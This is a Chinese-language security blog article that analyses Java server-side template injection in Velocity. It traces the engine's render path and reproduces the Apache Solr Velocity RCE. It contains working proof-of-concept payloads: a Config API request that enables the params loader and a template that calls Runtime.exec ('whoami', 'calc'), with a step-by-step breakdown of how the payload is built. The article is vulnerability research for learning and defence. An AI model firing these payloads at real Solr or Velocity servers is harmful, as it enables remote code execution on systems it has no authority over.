# 白头搔更短，SSTI惹人心！

# 前言

**为什么说Java审计南在SSTI呢？**

1. 现行SSTI(Server-Side Template Injection ) 资料不少，但与Java，以著名的先知社区为例（如下图所示），关于SSTI文章也不过几篇而已，但与Java相关的一篇都没有。  
   
2. 搜索CVE漏洞有关于SSTI的漏洞编号也不过只有几个而已。  
   
3. 如果你是一名老司机，已经挖过ssti漏洞，那你是否知道payload构造原理呢？本文为你解惑！老司机可以直接跳转到后记看本文，或者你只是想看payload构造原理亦如此，本文篇幅较长，建议先收藏。

---

# SSTI 服务端模板注入

   ssti服务端模板注入，ssti主要为python的一些框架 jinja2、 mako tornado 、django，PHP框架smarty twig，java框架FreeMarker、jade、 velocity等等使用了渲染函数时，由于代码不规范或信任了用户输入而导致了服务端模板注入，模板渲染其实并没有漏洞，主要是程序员对代码不规范不严谨造成了模板注入漏洞，造成模板可控。



```java
// 漏洞源码
private static void velocity(String template){
        Velocity.init();

        VelocityContext context = new VelocityContext();

        context.put("author", "Elliot A.");
        context.put("address", "217 E Broadway");
        context.put("phone", "555-1337");

        StringWriter swOut = new StringWriter();
        // 使用Velocity
        Velocity.evaluate(context, swOut, "test", template);
    }
```

**POC**  
`http://localhost:8080/ssti/velocity?template=%23set(%24e=%22e%22);%24e.getClass().forName(%22java.lang.Runtime%22).getMethod(%22getRuntime%22,null).invoke(null,null).exec(%22calc%22)`

---

## **漏洞分析**

```java
// Velocity.evaluate函数源码
public static boolean evaluate(Context context, Writer out, String logTag, String instring) throws ParseErrorException, MethodInvocationException, ResourceNotFoundException {
        return RuntimeSingleton.getRuntimeServices().evaluate(context, out, logTag, instring);
    }
```

- 设置断点开始调试



- 进入Velocity.evaluate方法查看方法详情

```java
public static boolean evaluate(Context context, Writer out, String logTag, String instring) throws ParseErrorException, MethodInvocationException, ResourceNotFoundException {
        return RuntimeSingleton.getRuntimeServices().evaluate(context, out, logTag, instring);
    }
```



- 继续跟进查看，这个就是Java最常见的get方法(初始化)。也是Java的特性之一封装性。



- RuntimeInstance类中封装了evaluate方法，instring被强制转化(Reader)类型。



- 进入StringReader看看



- 在进入evaluate查看方法具体实现过程

```java
public boolean evaluate(Context context, Writer writer, String logTag, Reader reader) {
        if (logTag == null) {
            throw new NullPointerException("logTag (i.e. template name) cannot be null, you must provide an identifier for the content being evaluated");
        } else {
        
            SimpleNode nodeTree = null;

            try {
            // 来到这里进行解析
                nodeTree = this.parse(reader, logTag);
            } catch (ParseException var7) {
                throw new ParseErrorException(var7, (String)null);
            } catch (TemplateInitException var8) {
                throw new ParseErrorException(var8, (String)null);
            }
           // 判断，然后进入this.render方法
            return nodeTree == null ? false : this.render(context, writer, logTag, nodeTree);
        }
    }
```

- 继续跟进render方法



- render方法里面还有一个render方法，真的是™烦。不过这个是simpleNodel类的render方法。



- **高潮激情部分**，由于前面两个没有什么用，让我们直接跳到第三个看，进入render方法。



- 在这里我们不能发现有一个execute方法，这就是罪魁祸首。



- 让我们进行跟进方法，由于是重构的execute方法，还是得看清楚点原理。

```java
// 截取的部分关键性源代码
for(int i = 0; i < this.numChildren; ++i) {
                        if (this.strictRef && result == null) {
                            methodName = this.jjtGetChild(i).getFirstToken().image;
                            throw new VelocityException("Attempted to access '" + methodName + "' on a null value at " + Log.formatFileString(this.uberInfo.getTemplateName(), this.jjtGetChild(i).getLine(), this.jjtGetChild(i).getColumn()));
                        }

                        previousResult = result;
                        result = this.jjtGetChild(i).execute(result, context);
                        if (result == null && !this.strictRef) {
                            failedChild = i;
                            break;
                        }
                    }
```

- 上面的for循环我就不说了它的作用了，我们焦点放在previousResult （之前的结果）和result上面。
- previousResult = result;首先这行代码使其它们保持一致
- 当遍历的节点时候，这时候就会一步步的保存我们的payload最终导致RCE  
  
- 完整的效果展示  
  
- 完整的调用链



---

# 案例分析 — Apache solr Velocity 模版注入

## 漏洞复现

   这个漏洞是去年10月底爆出的漏洞，这里只做必要的简单复现，笔者在这篇文章里主要是分析，更加完整的[漏洞复现过程](https://blog.csdn.net/sun1318578251/article/details/102843715)参考。

1. 第一步修改配置，开启Velocity模版里`VelocityResponseWriter`初始化参数的`params.resource.loader.enabled`选项，该选项默认是`false`。查看[W3Cschool solr官方文档](https://www.w3cschool.cn/solr_doc/solr_doc-wcyd2hyj.html)可知，solr是配置api可以进行查看配置、修改配置的。

访问查看`http://127.0.0.1:8983/solr/test/config`配置信息  


```plain
POST /solr/test/config HTTP/1.1
Host: 127.0.0.1:8983
Content-Type: application/json
Content-Length: 259

{
  "update-queryresponsewriter": {
    "startup": "lazy",
    "name": "velocity",
    "class": "solr.VelocityResponseWriter",
    "template.base.dir": "",
    "solr.resource.loader.enabled": "true",
    "params.resource.loader.enabled": "true"
  }
}
```



---

```plain
GET /solr/test/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27whoami%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end HTTP/1.1
Host: 127.0.0.1:8983
```



---

## 漏洞分析环境搭建

   笔者在此是使用远程代码调试的方式，分析源码。[源码下载地址](https://archive.apache.org/dist/lucene/solr/8.2.0/)windows用户可以选择下载这两个，这里笔者下载下载第二个。（下载第一个需要编译，过程自行百度）  


1. 解压，将源码导入idea中，并配置idea中远程代码调试。  
   
2. 在第二个下载压缩包路径CMD环境下（~~\solr-8.2.0\bin\），启动命令`solr start -p 8983 -f -a "-agentlib:jdwp=transport=dt_socket,server=y,suspend=n,address=8983"`  
   
3. 用idea打开项目，导入jar文件设置为library。（还有几处在solr-8.2.0\contrib\velocity\lib、solr-8.2.0\server\lib……）  
   
4. 打断点调试代码。分析一个web项目首先我们得看web.xml文件`E:\Soures\solr-8.2.0\server\solr-webapp\webapp\WEB-INF\web.xml`，看第一句，发现`在solrconfig.xml中注册的任何路径（名称）都将发送到该过滤器`。  
   

- 断点位置，为什么会在这里打个断点，笔者翻阅资料得知这里是核心位置。具体参考[solr源码阅读](https://my.oschina.net/haitaohu/blog/3078667)。  
  

---

## 漏洞成因分析 – 代码层

### POC第一部分

   第一部分分析请查看[Solr配置API：Config API](https://www.w3cschool.cn/solr_doc/solr_doc-wcyd2hyj.html)文档，文档中说明的很清楚。PS：漏洞复现的时候也有说明。  


---

### POC后部分分析

1. 笔者这里直接说几个关键的部分代码  
   第一步先处理请求  
   
   2. `E:\Soures\solr-8.2.0\server\solr-webapp\webapp\WEB-INF\lib\solr-core-8.2.0.jar!\org\apache\solr\servlet\SolrDispatchFilter.class`跳转到`E:\Soures\solr-8.2.0\server\solr-webapp\webapp\WEB-INF\lib\solr-core-8.2.0.jar!\org\apache\solr\servlet\HttpSolrCall.class` 先处理参数wt，设置为velocity。  
      
   3. 写入响应  
      
   4. 判断方法，写查询响应，进一步查看内容。solrReuest就是我们的payload。  
        
      
   5. 跳转到velocityResponWriter.class,会创建velocity模板引擎。在到133行的位置进入模板方法  
        
      
   6. 在这里会跳转到SimpleNode.class类（我们熟悉的类），第一步会设置指引，接着会到ASTReference.class 在第八的位置，会遍历方法，会执行命令。  
      
   7. 在这里会跳转到ASTMethod类中，执行。  
      )
   8. 具体执行是velocity模板引擎中有一个ClassMap类中。  
      

---

# 后记

## **知识补充**

   在前面有涉及到JJTree、payload构造、JavaCC等知识，但笔者并没有详细的说明，笔者想先读者们简单了解一下这些知识，然后在说明一下简单做个简单说明。

## **#set语法**

   #set语法可以创建一个Velocity的变量，#set语法对应的Velocity语法树是ASTSetDirective类，翻开这个类的代码，可以发现它有两个子节点：分别是RightHandSide和LeftHandSide，分别代表“=”两边的表达式值。与Java语言的赋值操作有点不一样的是，左边的LeftHandSide可能是一个变量标识符，也可能是一个set方法调用。变量标识符很好理解，如前面的#set($var=“偶数”)，另外是一个set方法调用，如#set($person.name=”junshan”)，这实际上相当于Java中person.setName(“junshan”)方法的调用。

## **#foreach语法**

Velocity中的循环语法只有这一种，它与Java中的for循环的语法糖形式十分类似，如#foreach($child in $person.children) $person.children表示的是一个集合，它可能是一个List集合或者一个数组，而$child表示的是每个从集合中取出的值。从render方法代码中可以看出，Velocity首先是取得$person.children的值，然后将这个值封装成Iterator集合，然后依次取出这个集合中的每一个值，将这个值以$child为变量标识符放入context中。除此以外需要特别注意的是，Velocity在循环时还在context中放入了另外两个变量，分别是counterName和hasNextName，这两个变量的名称分别在配置文件配置项directive.foreach.counter.name和directive.foreach.iterator.name中定义，它们表示当前的循环计数和是否还有下一个值。前者相当于for(int i=1;i<10;i++)中的i值，后者相当于while(it.hasNext())中的it.hasNext()的值，这两个值在#foreach的循环体中都有可能用到。由于elementKey、counterName和hasNextName是在#foreach中临时创建的，如果当前的context中已经存在这几个变量，要把原始的变量值保存起来，以便在这个#foreach执行结束后恢复。如果context中没有这几个变量，那么#foreach执行结束后要删除它们，这就是代码最后部分做的事情，这与我们前面介绍的#set语法没有范围限制不同，#foreach中临时产生的变量只在#foreach中有效。

## **JJTree渲染过程解析**

下面是JJTree的语法树：  


## **关于POC构造方法补充说明**

**VelocityResponseWriter 初始化参数**

- template.base.dir  
  如果指定并作为文件系统目录存在，则将为此目录添加一个文件资源加载程序。此目录中的模板将覆盖 “solr” 资源加载程序模板。
- init.properties.file  
  指定一个属性文件名，必须存在于 Solr 的conf/目录（而不是在velocity/子目录中）或者  的 JAR 文件的根中。
- params.resource.loader.enabled  
  “params” 资源加载程序允许在 Solr 请求参数中指定模板。例如：

`http://localhost:8983/solr/gettingstarted/select?q=\*:*&wt=velocity&v.template=custom&v.template.custom=CUSTOM%3A%20%23core_name
v.template=custom`表示要呈现一个名为“自定义”的模板，其值`v.template.custom`是自定义模板。默认情况下为`false`；它不常用，需要时启用。

- solr.resource.loader.enabled  
  “solr” 资源加载程序是默认注册的唯一模板加载程序。模板是由 SolrResourceLoader 从velocity/子目录下可见的资源提供的。VelocityResponseWriter 本身有一些内置的模板（在它 JAR 文件中的velocity/），这些模板可以通过这个加载程序自动使用。当相同的模板名称处于 conf/velocity/ 或使用template.base.dir选项时，可以覆盖这些内置模板。

---

**VelocityResponseWriter请求参数**

- v.template  
  指定要呈现的模板的名称。
- v.layout  
  指定一个模板名称，用作围绕主`v.template`指定模板的布局。  
  主模板呈现为包含在布局渲染中的字符串值$content。
- v.layout.enabled  
  确定主模板是否应该有围绕它的布局。默认是`true`，但也需要指定`v.layout`。  
  v.contentType  
  指定 HTTP 响应中使用的内容类型。如果没有指定，默认取决于是否指定`v.json`。  
  默认情况下不包含`v.json=wrf：text/html;charset=UTF-8`。  
  默认为`v.json=wrf：application/json;charset=UTF-8`。
- v.json  
  指定一个函数名称来包装呈现为 JSON 的响应。如果指定，则响应中使用的内容类型将为“application / json; charset = UTF-8”，除非被`v.contentType`覆盖。  
  输出将采用以下格式（带`v.json=wrf`）：

  ```plain
  wrf("result":"<Velocity generated response string, with quotes and backslashes escaped>")
  ```
- v.locale  
  使用`$resource`工具和其他 LocaleConfig 实现工具的语言环境。默认语言环境是`Locale.ROOT`。本地化资源从名为`resources[_locale-code].properties`的标准 Java 资源包中加载  
  可以通过提供由 SolrResourceLoader 在速度子下的资源包可见的 JAR 文件来添加资源包。资源包不能在`conf/`下加载，因为只有 SolrResourceLoader 的类加载程序方面可以在这里使用。
- v.template.template\_name  
  当启用 “params” 资源加载程序时，可以将模板指定为 Solr 请求的一部分。  
  `params.resource.loader.enabled`  
  “params” 资源加载程序允许在 Solr 请求参数中指定模板。例如：  
  `http://localhost:8983/solr/gettingstarted/select?q=\*:*&wt=velocity&v.template=custom&v.template.custom=CUSTOM%3A%20%23core_name`

---

1. 先将poc进行解码

   ```plain
   http://127.0.0.1:8983/solr/test/select?q=1&&wt=velocity&v.template=custom&v.template.custom=#set($x='') #set($rt=$x.class.forName('java.lang.Runtime')) #set($chr=$x.class.forName('java.lang.Character')) #set($str=$x.class.forName('java.lang.String')) #set($ex=$rt.getRuntime().exec('calc')) $ex.waitFor() #set($out=$ex.getInputStream()) #foreach($i in [1..$out.available()])$str.valueOf($chr.toChars($out.read()))#end
   ```
2. set和foreach语法前面都介绍了，现在在看payload是不是就一目了然了？如何构造，为什么这么构造..

   ```
   #set($x='')  
   #set($rt=$x.class.forName('java.lang.Runtime'))
   #set($chr=$x.class.forName('java.lang.Character'))  
   #set($str=$x.class.forName('java.lang.String'))
   #set($ex=$rt.getRuntime().exec('calc'))$ex.waitFor() 
   #set($out=$ex.getInputStream())
   #foreach($i in [1..$out.available()])$str.valueOf($chr.toChars($out.read()))
   #end
   ```

     
   

---

**附图：各框架模板结构：**  


---

# 总结

## 漏洞总结

   Apache Solr的`Config API`是自带功能，用于通过HTTP请求更改配置；当Solr未设置访问鉴权时，可以直接通过ConfigAPI更改配置，为漏洞利用创造了前提。config api是solr多此爆出漏洞关键[Apache Solr RCE](https://github.com/Imanfeng/Apache-Solr-RCE)有想法的童鞋可以看看这个项目。

## 题外话

   之前刚刚爆出漏洞的时候，笔者还曾复现过，但奈何能力有限，不能深入理解其中内涵。深表惭愧，总的来说，努力学习，安全一行任重而道远。

---

# 推荐学习资料

   想进行深入研究此漏洞肯定光看我这篇文章是不足的，毕竟我这这个只是Java方面上的，python、php等语言都没介绍。故此推荐，望彼有助。

**国内资料**

Python方面：[SSTI/沙盒逃逸详细总结](https://www.anquanke.com/post/id/188172)[flask之ssti模版注入从零到入门](https://xz.aliyun.com/t/3679)  
[Flask/Jinja2模板注入中的一些绕过姿势](https://p0sec.net/index.php/archives/120/)  
PHP方面：[服务端模板注入攻击 （SSTI）之浅析](https://www.freebuf.com/vuls/83999.html)

**国外资料**

这篇总结的比较全面：[Server-Side Template Injection: RCE for the modern webapp](https://www.blackhat.com/docs/us-15/materials/us-15-Kettle-Server-Side-Template-Injection-RCE-For-The-Modern-Web-App-wp.pdf)  
Python方面：[Jinja2 template injection filter bypasses](https://0day.work/jinja2-template-injection-filter-bypasses/)

---

# 参考

<https://www.liangzl.com/get-article-detail-138970.html>  
<https://xz.aliyun.com/t/3679>  
<https://cert.360.cn/report/detail?id=6125d7f75170c309de1ffdde11f86355>  
<https://paper.seebug.org/1107/#41>  
<https://ackcent.com/blog/in-depth-freemarker-template-injection/>  
<https://www.cnblogs.com/wade-luffy/p/5996848.html>  
<https://www.w3cschool.cn/solr_doc/solr_doc-umxd2h9z.html>  
<https://blog.csdn.net/weixin_38964895/article/details/81381060>  
<https://blog.csdn.net/sweety820/article/details/74347068?depth_1-utm_source=distribute.pc_relevant.none-task&utm_source=distribute.pc_relevant.none-task>
